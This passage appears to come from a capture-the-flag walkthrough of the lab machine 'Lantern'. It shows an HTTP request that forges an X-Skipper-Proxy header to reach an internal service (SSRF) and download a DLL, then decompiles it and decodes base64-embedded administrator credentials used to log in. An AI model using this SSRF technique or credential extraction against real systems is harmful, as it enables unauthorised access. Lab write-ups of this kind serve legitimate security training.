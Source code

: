 ```
https://www.exploit-db.com/raw/51111
```

Intercept the DLL request using Skipper Proxy:

```http
GET /_framework/InternaLantern.dll HTTP/1.1 
Host: lantern.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Skipper-Proxy: http://127.0.0.1:5000
Referer: http://lantern.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
```

Successfully downloaded the DLL file.

### Decompiling DLL File

Use JetBrains DotPeek to browse the DLL. 

![image](https://github.com/user-attachments/assets/f60f42b1-d082-425b-a254-e82e586258d1)

In `InternaLanding.Pages/Internal`, find base64 encoded employee details. Decode using [CyberChef](https://gchq.github.io/CyberChef).

```base64
"U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE="
```

Decoded:

```txt
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!
```

Credentials:

```
admin:AJbFA_Q@925p9ap#22
```
<br>

Use these credentials to log in at `http://lantern.htb:3000/`.
